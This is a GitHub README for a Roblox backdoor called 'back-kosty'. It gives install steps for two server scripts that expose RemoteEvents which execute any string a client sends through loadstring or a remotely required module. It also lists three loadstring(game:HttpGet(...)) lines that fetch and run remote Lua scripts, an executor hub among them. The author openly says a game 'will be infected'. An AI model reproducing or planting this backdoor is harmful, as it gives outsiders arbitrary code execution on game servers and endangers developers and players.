 # back-kosty
repository of my backdoor for test also this so epic :D
# how to install?
create in serverscriptservice the 2 scripts
# stape number 1
local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "back-kosty"
backdoor.OnServerEvent:connect(function(player, SS)
	loadstring(SS)()
end)

# stape 2

local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "polaria"

backdoor.OnServerEvent:Connect(function(player, SS)
	local module = require(123255432303221)
	if type(SS) == "string" then
		module:Pload(SS)
	else
		warn("polaria failed")
	end
end)

# after that your game will be infected by back-kosty
# loadstring 1 (SERVERSIDE)
loadstring(game:HttpGet("(https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/scanner.lua)")()
# loadstring 2 (LOCAL)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/executor/executorandhub.lua", true))()
# loadstring 3 (SERVERSIDE IN F3X)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/server-side/project%20360%20ONLY%20F3X%20GAMES.lua", true)()
